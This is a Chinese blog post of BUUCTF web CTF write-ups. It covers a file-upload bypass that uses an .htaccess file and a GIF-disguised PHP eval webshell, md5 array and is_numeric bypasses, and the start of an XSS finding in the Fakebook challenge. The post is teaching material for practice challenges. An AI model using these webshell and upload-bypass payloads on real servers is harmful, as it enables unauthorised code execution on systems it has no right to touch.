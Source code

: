 # BUUCTF Web记录 4


已经到第4篇了，不容易啊

<!--more-->

## 0x00 [MRCTF2020]你传你🐎呢
[题目链接](https://buuoj.cn/challenges#[MRCTF2020]%E4%BD%A0%E4%BC%A0%E4%BD%A0%F0%9F%90%8E%E5%91%A2)

开头的日本人给我吓到了😅

![image-20210824192847310](image-20210824192847310.png "笑川の笑容")

试了一下，php/php2/php3/phtml什么的都传不了，jpg可以传

那么思路就比较明显了，又是上传`.htaccess`或者`.user.ini`文件来使得服务端将图片🐎当作php文件解析。

上传`.htaccess`文件，文件内容：

```
GIF89a
<FilesMatch "leo.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

这一步需要用Burp拦截请求，手动修改`Content-Type: application/octet-stream`为`Content-Type: image/png`。

然后上传`leo.jpg`，其中写入

```php
GIF89a
<script language='php'>@eval($_POST['ye']);</script>
```

蚁剑连接即可。

## 0x01 [MRCTF2020]Ez_bypass

[题目链接](https://buuoj.cn/challenges#[MRCTF2020]Ez_bypass)

这题就这？

根据提示看php源码

```html
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first
```

存在两层需要绕过

第一层，满足两个get请求参数的md5强相等但是参数不相等，这显然是传数组呀。需要记住的是，对于php后端，get请求传递数组的方式为`/?a[]=1`，这样相当于传递了`a = [1]`，`/?a[]=1&a[]=2`则相当于传递了`a = [1, 2]`。

![image-20210825105000448](image-20210825105000448.png "md5绕过")

第二层要求post的参数经`is_numeric()`返回`false`，但是要能够满足`==1234567`。百度一下`is_numeric()`绕过即可，最简单的方式就是post一个字符串`1234567 `，注意后面加了个空格。`1234567%00`同样可以满足要求。

![image-20210825105341819](image-20210825105341819.png "is_numeric绕过")

### 参考链接

- [[CTF]php is_numeric绕过](https://blog.csdn.net/qq_33583069/article/details/115562765)

## 0x02 [网鼎杯 2018]Fakebook

[题目链接](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202018]Fakebook)

fakebook，自己提交信息然后点join，就可以在网站上看到，~~这题应该是xss~~。

试了一下，用户名可以xss。

![image-20210825111401320](image-20210825111401320.png "join")

